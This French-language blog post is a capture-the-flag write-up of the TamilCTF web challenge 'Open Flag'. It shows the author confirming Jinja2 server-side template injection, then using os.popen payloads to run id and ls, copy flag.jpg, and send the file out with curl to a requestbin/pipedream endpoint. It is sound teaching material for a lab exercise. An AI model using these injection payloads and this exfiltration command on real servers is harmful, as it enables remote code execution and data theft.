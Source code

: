 ```yaml
---
layout: post
title: "[WIP] Open Flag"
date: 2021-09-29
categories: tamilctf
---
```


Ce challenge fait partie des challenges web.

Lorsque j'ouvre la page pour débuter le challenge, une page de login apparaît.

![1](https://user-images.githubusercontent.com/16634117/135445836-71bcee4f-83c2-4b99-9e5b-8a7346de9a6d.png)

Je tente d'abord un login aléatoire toto/toto afin de voir ce qu'il se passe, je tombe directement sur une nouvelle page m'indiquant la présence du flag dans l'image flag.jpg.

![2](https://user-images.githubusercontent.com/16634117/135445985-2c9546a9-d679-4bc4-907c-4f0f226c9380.png)

Tout naturellement, je tente d'accéder à cette image.

![1-1](https://user-images.githubusercontent.com/16634117/135446040-999b482c-fcb2-4f09-b21e-aed6fe260d04.png)

Evidemment rien...

Je décide donc de jeter un œil au html de la page précédente.

![3](https://user-images.githubusercontent.com/16634117/135446161-86e363f8-f8a7-418f-89ab-3dd2cb35b762.png)

En commentaire, se trouve "Hello" suivi du nom utilisé pour le login. Je tente donc de transformer cela pour pouvoir insérer des balises html en bypassant le commentaire.

![4](https://user-images.githubusercontent.com/16634117/135446343-6e6e8694-8b95-4c6b-a527-e0db4e475b1f.png)

Et le résultat :

![5](https://user-images.githubusercontent.com/16634117/135446394-f641c8f6-06a9-45cd-b23b-7f35939daab6.png)

Je peux donc injecter du code dans la page... Mais aucune notion d'admin qui doit passer pour vérifier quoi que ce soit, j'écarte donc rapidement la possibilité d'un vol de session.

Je jette un petit coup d'œil aux requêtes et je vois un indice intéressant, le serveur est en python.

![6](https://user-images.githubusercontent.com/16634117/135446526-9d564211-ff3d-4673-b42b-97ddca26be8d.png)

Je me suis souvenu d'un challenge root-me visant à injecter des templates pour exécuter du code, je me dis que cette piste est intéressante.

Pour vérifier mon hypothèse, il me suffit d'injecter un template tout simple comme {% raw %} `{{7 * 7}}` {% endraw %}; si le serveur effectue la multiplication, alors la faille est exploitable.

![7](https://user-images.githubusercontent.com/16634117/135446757-0a62b6c5-39e7-48fc-8411-70cfe397e1a9.png)

![8](https://user-images.githubusercontent.com/16634117/135446779-5f18bf36-d53b-462b-be69-efdd52dfc581.png)

Le code est exécuté !

À partir de là, un petit détour sur le [repo github payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) va me donner une liste d'injections qui me permettra d'arriver à mes fins.

Je tente d'abord de trouver l'uid côté serveur, la charge est la suivante :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
{% endraw %}

Et la réponse :

![9](https://user-images.githubusercontent.com/16634117/135447259-653f1ee8-ce80-4d18-af7a-2056153b9f01.png)

Intéressant... Voyons voir si je peux lister les fichiers à la racine du serveur web :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
{% endraw %}

Et la réponse :

![10](https://user-images.githubusercontent.com/16634117/135447364-34f4895c-3e2b-4d8f-ac02-f1e9a1c9ef17.png)

J'essaye donc de récuperer l'image en base 64
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('base64 flag.jpg').read() }}`
{% endraw %}
La réponse est vide... Il y a effectivement un fichier "flag.jpg" mais les droits m'empechent d'y accéder.

Je copie donc l'image dans le répertoire `/tmp` pour travailler proprement.
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cp flag.jpg /tmp/flag.jpg').read() }}`
{% endraw %}
Je fais maintenant un end point de récupération de requêtes grâce au site [requestbin](https://requestbin.com/?gclid=EAIaIQobChMIw426kM2m8wIVWMvICh31gwmLEAAYASAAEgIPHfD_BwE)

Et je tente d'envoyer une requête à partir du serveur, afin de vérifier que je peux sortir en http :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
La réponse sur le site :

![12](https://user-images.githubusercontent.com/16634117/135448042-d73f89f5-a574-4d81-b3a9-27afb02097c1.png)

Et sur mon endpoint :

![13](https://user-images.githubusercontent.com/16634117/135448075-7e8221cf-0818-417f-b38b-f0048a70b010.png)

J'ai donc tous les élements pour terminer le challenge :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl -F "image=@/tmp/flag.jpg" https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
Qui me donne :

![14](https://user-images.githubusercontent.com/16634117/135448201-56f99f3f-77c5-407f-8023-d8787beb47a6.png)

Je récupère cette donnée brute et la retransforme en image :

![file](https://user-images.githubusercontent.com/16634117/135448266-7c4f2636-15cf-4c61-8cd1-b801bca70199.png)

Bingo !
